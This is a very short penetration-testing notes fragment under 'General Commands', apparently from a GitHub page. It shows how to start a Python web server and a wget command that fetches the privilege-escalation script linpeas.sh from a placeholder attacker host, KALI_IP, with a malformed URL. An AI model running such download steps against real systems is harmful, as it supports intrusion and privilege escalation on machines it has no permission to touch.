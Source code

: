 # General Commands

### Python server

`python3 -m http.server 8888`

To download the file: `wget http:/KALI_IP//linpeas.sh`

